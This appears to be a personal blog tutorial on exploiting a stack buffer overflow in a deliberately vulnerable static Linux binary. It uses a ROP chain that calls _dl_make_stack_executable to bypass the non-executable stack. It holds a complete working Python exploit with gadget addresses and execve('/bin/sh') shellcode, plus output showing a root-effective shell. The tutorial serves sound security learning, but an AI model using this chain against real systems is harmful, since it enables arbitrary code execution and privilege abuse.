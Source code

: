 Tools:
1. objdump

Binary protection:
1. Read Only relocations
2. No exec stack
3. No exec heap
4. ASLR

Compilation: Static

Architecture: x86_64

Operating System: Linux (Debian)

#1. Vulnerable binary
For this exemple, I will take the same program as my last post.
<pre><code class="cpp">#include &lt;stdio.h&gt;

// gcc main.c -fno-stack-protector -Wl,-z,relro,-z,now,-z,noexecstack -static
int main()
{
  char buf[64];

  gets(buf);  // Never use this function !
  printf("%s", buf);
  return 0;
}
</code></pre>
I will show you today an other method to exploit a buffer overflow thanks to a ROP. I find this method funny because despite the "no exec stack" protection, it permit to make the stack executable and so, execute a shellcode on it.
#2. To begin
To do this exploit, we will use the "_dl_make_stack_executable" function.
The function look like that:
<pre><code class="bash">$ objdump -D a.out | grep -A 20 "&lt;_dl_make_stack_executable&gt;"
000000000045fc30 &lt;_dl_make_stack_executable&gt;:
  45fc30:	48 8b 35 e9 54 25 00 	mov    0x2554e9(%rip),%rsi        # 6b5120 &lt;_dl_pagesize&gt;
  45fc37:	53                   	push   %rbx
  45fc38:	48 89 fb             	mov    %rdi,%rbx
  45fc3b:	48 8b 07             	mov    (%rdi),%rax
  45fc3e:	48 89 f7             	mov    %rsi,%rdi
  45fc41:	48 f7 df             	neg    %rdi
  45fc44:	48 21 c7             	and    %rax,%rdi
  45fc47:	48 3b 05 da 42 25 00 	cmp    0x2542da(%rip),%rax        # 6b3f28 &lt;__libc_stack_end&gt;
  45fc4e:	75 1f                	jne    45fc6f &lt;_dl_make_stack_executable+0x3f&gt;
  45fc50:	8b 15 2a 43 25 00    	mov    0x25432a(%rip),%edx        # 6b3f80 &lt;__stack_prot&gt;
  45fc56:	e8 15 21 fd ff       	callq  431d70 &lt;__mprotect&gt;
  45fc5b:	85 c0                	test   %eax,%eax
  45fc5d:	75 17                	jne    45fc76 &lt;_dl_make_stack_executable+0x46&gt;
  45fc5f:	48 c7 03 00 00 00 00 	movq   $0x0,(%rbx)
  45fc66:	83 0d a3 54 25 00 01 	orl    $0x1,0x2554a3(%rip)        # 6b5110 &lt;_dl_stack_flags&gt;
  45fc6d:	5b                   	pop    %rbx
  45fc6e:	c3                   	retq   
  45fc6f:	b8 01 00 00 00       	mov    $0x1,%eax
  45fc74:	5b                   	pop    %rbx
  45fc75:	c3                   	retq   
</code></pre>
We can see two important things. First, the function take "\_\_libc\_stack_end" as single parameter and it encapsulate the mprotect function. (cf man mprotect) The third parameter of the mprotect function determine the memory access. (PROT_NONE | PROT_READ | PROT_WRITE | PROT_EXEC) By default, the value is set to "O" for none access, so our goal will be to set this value to "7". (7 == rwx) To do this, we need to change the value of "\_\_stack\_prot" because it's the variable used by mprotect as third parameter.

So our payload will look like this:
padding + set \_\_stack\_prot to 7 + set RDI to \_\_libc\_stack\_end + execute \_dl\_make\_stack\_executable + push shellcode

#3. The payload
I will not explain how to find the gadget, take a look at my last post if you don't now how to do it.
First, the \_\_stack\_prot address:
<pre><code class="bash">$ objdump -D a.out | grep "__stack_prot"
00000000006b3f80 <__stack_prot>:</code></pre>
Great. So our payload begin will be:
<pre><code class="python">payload = 'A'*72 # padding

payload += pack("&lt;Q", 0x00000000004016b7) # pop rsi ; ret
payload += pack("&lt;Q", 0x00000000006b3f80) # @ __stack_prot
payload += pack("&lt;Q", 0x00000000004314ad) # pop rax ; ret
payload += pack("&lt;Q", 0x0000000000000007) # PROT_EXEC|PROT_READ|PROT_WRITE|PROT_NONE
payload += pack("&lt;Q", 0x000000000045f491) # mov QWORD PTR [rsi], rax ; ret</code></pre>
We also will need the address of the "\_\_libc\_stack\_end" variable and "\_dl\_make\_stack\_executable" function.
<pre><code class="bash">$ objdump -D a.out|egrep "__libc_stack_end|_dl_make_stack_executable"
...
000000000045fc30 &lt;_dl_make_stack_executable&gt;:
...
00000000006b3f28 &lt;__libc_stack_end&gt;:
...
</code></pre>
And the payload part look like:
<pre><code class="python">payload += pack("&lt;Q", 0x000000000040159b) # pop rdi ; ret
payload += pack("&lt;Q", 0x00000000006b3f28) # @ __libc_stack_end
payload += pack("&lt;Q", 0x000000000045fc30) # @ _dl_make_stack_executable
</code></pre>
Well, we only have left to push the shellcode and test it ! 
The shellcode is a simply execve("/bin/sh", ...) on 30 bytes.
To push the shellcode:
<pre><code class="python">payload += pack("&lt;Q", 0x000000000040fd8c) # push rsp ; ret
payload += shellcode</code></pre>
#4. Exploitation
The whole payload look like:
<pre><code class="python">#!/usr/bin/env python2.7

from struct import pack

#
# Shellcode execve("/bin/sh", ["/bin/sh"], NULL) (30 bytes)
#

shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"

payload = 'A'*72 # padding

payload += pack("&lt;Q", 0x00000000004016b7) # pop rsi ; ret
payload += pack("&lt;Q", 0x00000000006b3f80) # @ __stack_prot
payload += pack("&lt;Q", 0x00000000004314ad) # pop rax ; ret
payload += pack("&lt;Q", 0x0000000000000007) # PROT_EXEC|PROT_READ|PROT_WRITE|PROT_NONE
payload += pack("&lt;Q", 0x000000000045f491) # mov QWORD PTR [rsi], rax ; ret

payload += pack("&lt;Q", 0x000000000040159b) # pop rdi ; ret
payload += pack("&lt;Q", 0x00000000006b3f28) # @ __libc_stack_end
payload += pack("&lt;Q", 0x000000000045fc30) # @ _dl_make_stack_executable

payload += pack("&lt;Q", 0x000000000040fd8c) # push rsp ; ret
payload += shellcode

print payload
</code></pre>
The result is:
<pre><code class="bash">$ (python2.7 rop.py; cat) | ./a.out
id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
</code></pre>
Done.
